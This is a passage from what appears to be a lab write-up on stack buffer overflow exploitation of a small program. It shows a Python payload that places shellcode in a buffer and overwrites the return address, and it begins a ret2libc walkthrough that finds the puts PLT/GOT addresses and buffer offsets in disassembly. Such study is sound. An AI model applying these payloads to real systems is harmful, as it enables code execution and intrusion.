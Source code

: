 Here we known the drift between `id` in `main` and `str` in `hear` is `0x7fffffffe3f8 - 0x7fffffffe2e0 = 0x118`, then things is very if we put the shellcode at the start of the `str` string:

```python
shellcode_addr = p64(id_addr - 0x118)  # also addr of `str`
payload = shell_code + b"\0" * (256 - len(shell_code) + 8) + shellcode_addr
```

Here shellcode's address is as same as the address of `str` and the payload is the shellcode with '\\0' filled, the only thing left to do is to overwrite the return address of `hear` with the address of shellcode

![](assets/image-20210408142614761.png)

## 02_ret2libc64

### Step1 - get real addr

We can do this by using `puts`'s plt and got address to get `puts`'s real address and compare it with `puts`'s offset in libc

```assembly
0000000000400550 <puts@plt>:
  400550:	ff 25 c2 0a 20 00    	jmpq   *0x200ac2(%rip)        # 601018 <puts@GLIBC_2.2.5>
  400556:	68 00 00 00 00       	pushq  $0x0
  40055b:	e9 e0 ff ff ff       	jmpq   400540 <.plt>
```

Therefore `puts`'s plt and got address is 0x400550 and 0x601018 respectively.

Also we need to get the address of `hear` to reuse the `read(STDIN_FILENO, str, LENGTH + 0x48);` segment for later injection

```assembly
0000000000400706 <hear>:
  400706:	55                   	push   %rbp
  400707:	48 89 e5             	mov    %rsp,%rbp
  40070a:	48 81 ec 00 01 00 00 	sub    $0x100,%rsp
  ......
```

Then we need to check out the distance between `str` and return address of `hear`:

```assembly
0000000000400706 <hear>:
  ......
  400711:	48 8d 85 00 ff ff ff 	lea    -0x100(%rbp),%rax
  ......
  40071d:	48 89 c6             	mov    %rax,%rsi
  400725:	e8 56 fe ff ff       	callq  400580 <read@plt>
  ......
```

Found out the argument `void *__buf` used in `read` is `rsi = rax = rbp - 0x100`, therefore `str` is 0x100 = 256 lowser then the `rbp`

We also needs to find out how `puts` use arguments
